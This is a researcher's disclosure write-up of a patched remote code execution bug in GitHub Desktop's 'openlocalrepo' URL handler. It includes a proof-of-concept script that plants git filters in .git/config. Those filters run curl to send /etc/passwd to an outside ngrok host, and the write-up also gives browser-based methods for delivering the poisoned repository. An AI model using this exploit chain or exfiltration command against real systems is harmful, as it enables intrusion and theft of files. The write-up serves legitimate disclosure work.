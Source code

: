 # RCE in [GitHub Desktop](https://github.com/desktop/desktop) < 2.9.4

![](github_desktop_openlocalrepo_safari.gif)

**[High-res Safari PoC screencast](https://drive.google.com/file/d/1QTEtoT_RyZz3ZtFpND82rD_nyXKHDF8L/view?usp=sharing)**


- [RCE in GitHub Desktop < 2.9.4](#rce-in-github-desktop--294)
- [Intro](#intro)
- [Summary](#summary)
- [Details (< v2.9.4)](#details--v294)
  - ["openlocalrepo" URL command](#openlocalrepo-url-command)
  - [Crafting a "poisoned" git repository](#crafting-a-poisoned-git-repository)
  - [Achieving code execution](#achieving-code-execution)
  - [Delivering a malicious repository on local FS](#delivering-a-malicious-repository-on-local-fs)
  - [Attack scenarios](#attack-scenarios)
- [Impact & fix](#impact--fix)

# Intro

It's obvious why `git` was [selected by Google](news/google-commits-to-solving-security-problems-in-open-source-projects-like-git-and-laravel/) for a security audit as a top-priority open-source project git.

`git` is a dumb version tracker used by every software engineer for collaboration.

`git`'s destiny is to make developers' collaboration efficient. Therefore, `git` needs different functionalities that execute local programs for remote communication, compression, code diffing, and formatting.

On top of this, git is a fundamental primitive for deploying, scaling, and managing source code and releases. Things like git-lfs make git accessible to a broad scope of potential users.

# Summary

`openlocalrepo` [URI command](https://github.com/desktop/desktop/blob/18238077aa1e4851e710cfa66587cd4fd597bacd/app/src/cli/commands/open.ts#L35) in GitHub Desktop < 2.9.4 allows importing a crafted repository with malicious payload in `/.git/config` on the targeted machine leading to code execution.

# Details (< v2.9.4)

## "openlocalrepo" URL command

Unlike `openrepo` URI command, `openlocalrepo` doesn't ask the user to confirm local repository import.
`github-mac://openlocalrepo/<path_to_local_repo>` command immediately imports the specified local repository into GitHub Desktop app.

## Crafting a "poisoned" git repository

It's possible to insert malicious git configuration in `.git/config`. Of course, it's impossible to drop such a repo through `git clone`, but who said we need `git clone`?

```bash
mkdir -p /tmp/evil
cd /tmp/evil
git init
cat > ./.git/config<<- EOM
[filter "any"]
    smudge = curl --data-binary "@/etc/passwd" https://metnew.ngrok.io/smudge
    clean = curl --data-binary "@/etc/passwd" https://metnew.ngrok.io/clean
EOM
touch example
git add ./example
git commit -m 'commit'
echo "*  text  filter=any" > .gitattributes
```

> Make sure to replace the test payload
> To confirm the config is poisoned, run `git status` inside the repo

This repo has [git filters](https://git-scm.com/book/en/v2/Customizing-Git-Git-Attributes) that GitHub Desktop will execute as soon as the repo is imported into the app.
When Desktop imports the repo, it'll run `any` filter for `.gitattributes` because this file hasn't been committed yet.

## Achieving code execution

At this point, we know the following things:

- importing a local repo using `openlocalrepo` URI command doesn't require user confirmation (except for running the URL command in the browser).
- importing a local repo may lead to code execution

That means **running a URL command can lead to malicious code execution**.

## Delivering a malicious repository on local FS

Approach to payload delivery depends on what we already know about the target, specifically:

**Q:** What's the targeted device's OS/browser/username?

> it's possible to guess OS/browser from User-Agent
> it's possible to uncover OS username by navigating user browser to `ssh://` link (if the user confirms -> an SSH session will start with the current username).
> There are other esoteric methods like stealing the OS username by sending an HTML file to the target (and disclosing the full path using JS later).

**Safari: `"Open 'safe' files"` isn't that safe**

**By default**, Safari has **"Open 'safe' files after downloading"** option enabled.
Thus, running `location.href = "./payload.zip"` makes Safari unzipping the archive to `~/Downloads/evil` **without any user interaction**.

**Delivering malicious files with `smb://`**

If it's macOS or Windows, we can drop the folder with `location.href="smb://publicshare"`
In macOS, it requires not more than a single click from the targeted user.

**Esoteric methods: Keybase, Google Drive, etc.**

I described some alternative payload delivery methods (Keybase, GDrive, iCloud, etc.) in [this write-up about `.terminal` files](https://medium.com/@metnew/exploiting-popular-macos-apps-with-a-single-terminal-file-f6c2efdfedaa).

**Delivering the payload w iCloud links (macOS 10.15)**

URLs like `icloud-sharing://www.icloud.com/iclouddrive/0sW3_56zbqY0Exxxxxxxxxxxx#evil` on macOS 10.15 automatically download folders from the web to the user's local iCloud files.

**Delivery summary**

**Hypothesis**: delivering a malicious folder to the device doesn't require more than one click from the target.

> Because `smb://` strategy allows doing this on both macOS and Win in no more than one click and **doesn't have any specific requirements** (e.g., OS username, OS settings, etc.).

> **NOTE:** I don't have a Win machine. But from what I remember, Win could mount public shares without triggering a dialog at all. Can someone check this, please?

## Attack scenarios

**Safari attack scenario**

**[PoC Screencast](https://drive.google.com/file/d/1QTEtoT_RyZz3ZtFpND82rD_nyXKHDF8L/view?usp=sharing)**

1. User visits the attacker's website
2. The website downloads a malicious archive. The archive with the malicious repo is extracted to `/Users/user/Downloads/archive`
3. The website runs `location.href = 'github-mac://openlocalrepo//Users/user/Downloads/archive'`.
4. pwn.

**smb:// attack scenario**

**[PoC Screencast](https://drive.google.com/file/d/1QNDr_qzO-KpKMbKEbZ5YW0IhxBHLuJ_e/view?usp=sharing)**

> PoC took a bit long, but it's possible to fine-tune the smb server to skip that pause I had in the screencast

1. User visits the attacker's website
2. The website opens `location.href = "smb://guest:guest@publicshare"`. (user confirms)
3. The archive with the malicious repo is mounted to `/Volumes/share/evil`
4. The website runs `location.href = 'github-mac://openlocalrepo//Volumes/share/evil'`.
5. pwn.

# Impact & fix

Attacker can run arbitrary code on the targeted device using Github Desktop protocol handler.

As of version 2.9.4, GitHub Desktop asks for confirmation when opening a local repository :)

See [this PR](https://github.com/desktop/desktop/pull/12935).

**Timeline**

- Aug 29, 2021 - initial report
- Sep 9, 2021 - the vulnerability is confirmed
- Sep 10 2021 - pull request with [fix](https://github.com/desktop/desktop/pull/12935) is available.
- Sep 10, 2021 - GitHub awarded $2K bounty.

**Bounty concerns**

I had a slight feeling the bounty was too small. Similar bugs in GitHub Desktop were awarded $5K and $10K bounties. GitHub declares they pay bounties only for Critical issues. The above-described vulnerability requires conditions to exploit, so GitHub Security Team decided to track it as a low severity issue. I'm somewhat ok with this. Maybe I was just too much excited about my finding :)

**Further research**

In the following write-up, I'll share how I made over $50K+ on some git bugs and features. Stay tuned :)
